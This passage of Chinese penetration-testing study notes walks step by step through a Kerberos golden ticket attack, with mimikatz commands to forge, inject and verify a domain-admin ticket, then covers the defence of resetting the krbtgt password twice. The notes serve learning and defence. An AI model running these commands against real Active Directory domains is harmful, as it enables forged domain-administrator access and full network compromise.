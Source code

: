 3. 清空票据

   在mimikatz中输入：

   ```powershell
   kerberos::purge
   ```

4. 生成黄金票据

   在mimikatz中输入：

   ```powershell
   kerberos::golden /admin:Administrator /domain:pentest.com /sid:S-1-5-21-XXXXXXXXXXXX-XXXXXXXXXXX-XXXXXXXXXX /krbtgt:XXXXXXXXXXXXXXXXXX /ticket:Administrator.kirbi
   ```

   如果拿到的是AES-256 HMAC，则使用：

   ```powershell
   kerberos::golden /admin:Administrator /domain:pentest.com /sid:S-1-5-21-XXXXXXXXXXXX-XXXXXXXXXXX-XXXXXXXXXX /aes256:XXXXXXXXXXXXXXXXXX /ticket:Administrator.kirbi
   ```

5. 注入票据到内存

   ```powershell
   kerberos::ptt Administrator.kirbi
   ```

6. 检索当前会话中的票据

   ```powershell
   kerberos::tgt
   ```

7. 验证权限

   推出Mimikatz，然后输入：

   ```powershell
   dir \\dc\c$
   ```

   此时应该可以正常访问。

##### 黄金票据的防御

管理员通常会修改域管理员的密码，但是有时会忘记修改krbtgt的密码，所以，如果想要防御Golden Ticket攻击，需要修改krbtgt密码两次。

> ! 无语，书上在讲什么啊，什么忘记修改密码就需要修改两次krbtgt密码？？？
>
> 个人的理解是，修改一次会使得利用旧NTLM Hash创建的新金票失效，但是为了保证域内其余已经颁发票据的使用，旧票据仍然可以使用，第二次修改则是让原先的旧票据失效。

使用黄金票据伪造的用户可以是任意用户，即便该用户不存在。由于TGT的加密是由krbtgt完成的，所以，只要TGT被krbtgt账户和密码正确地加密，那么任意KDC使用krbtgt将TGT解密后，TGT的所有信息都是可信的。

只有下面两种情况才能修改krbtgt密码：

* 域功能级别从Win 2000或WIn Server 2003提升至Windows Server 2008或Windows Server 2012。提升域功能的过程中，krbtgt的密码会被自动修改。在大型企业，提升域功能饥饿耗时耗力，绝大多数不会做这样的操作。
* 用户自行进行安全检查和相关服务加固时会修改krbtgt的密码。
